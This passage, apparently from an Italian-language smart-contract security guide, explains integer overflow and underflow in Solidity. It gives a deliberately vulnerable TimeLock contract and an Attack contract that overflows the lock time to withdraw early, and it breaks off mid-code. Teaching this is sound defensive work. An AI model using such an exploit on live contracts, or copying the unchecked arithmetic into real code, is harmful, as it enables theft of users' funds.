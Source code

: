 Le sottoeccedenze di interi si verificano per motivi simili: i risultati di un'operazione aritmetica ricadono al di sotto dell'intervallo accettabile. Diciamo che hai provato a ridurre `0` in un `uint8`, il risultato sarebbe semplicemente il ripristino al valore massimo rappresentabile (`255`).

Sia le sottoeccedenze che i sovraflussi di interi possono comportare modifiche impreviste alle variabili di stato di un contratto e risultare nell'esecuzione non pianificata. Di seguito è riportato un esempio che mostra come un utente malevolo può sfruttare il sovraflusso aritmetico in un contratto intelligente per eseguire un'operazione non valida:

```
pragma solidity ^0.7.6;

// Questo contratto è progettato per agire da caveau temporale.
// L'utente può depositare in questo contratto, ma non può prelevare per almeno una settimana.
// L'utente può inoltre estendere il tempo di attesa oltre il periodo di attesa di 1 settimana.

/*
1. Distribuisci TimeLock
2. Distribuisci Attack con l'indirizzo di TimeLock
3. Chiama Attack.attack inviando 1 ether. Potrai immediatamente
   prelevare i tuoi ether.

Cos'è successo?
L'attacco ha causato il sovraflusso di TimeLock.lockTime ed è riuscito a prelevare
prima del periodo di attesa di 1 settimana.
*/

contract TimeLock {
    mapping(address => uint) public balances;
    mapping(address => uint) public lockTime;

    function deposit() external payable {
        balances[msg.sender] += msg.value;
        lockTime[msg.sender] = block.timestamp + 1 weeks;
    }

    function increaseLockTime(uint _secondsToIncrease) public {
        lockTime[msg.sender] += _secondsToIncrease;
    }

    function withdraw() public {
        require(balances[msg.sender] > 0, "Fondi insufficienti");
        require(block.timestamp > lockTime[msg.sender], "Tempo di blocco non scaduto");

        uint amount = balances[msg.sender];
        balances[msg.sender] = 0;

        (bool sent, ) = msg.sender.call{value: amount}("");
        require(sent, "Impossibile inviare Ether");
    }
}

contract Attack {
    TimeLock timeLock;

    constructor(TimeLock _timeLock) {
        timeLock = TimeLock(_timeLock);
    }

    fallback() external payable {}

    function attack() public payable {
        timeLock.deposit{value: msg.value}();
        /*
        if t = tempo di blocco corrente, allora dobbiamo trovare x tale che
```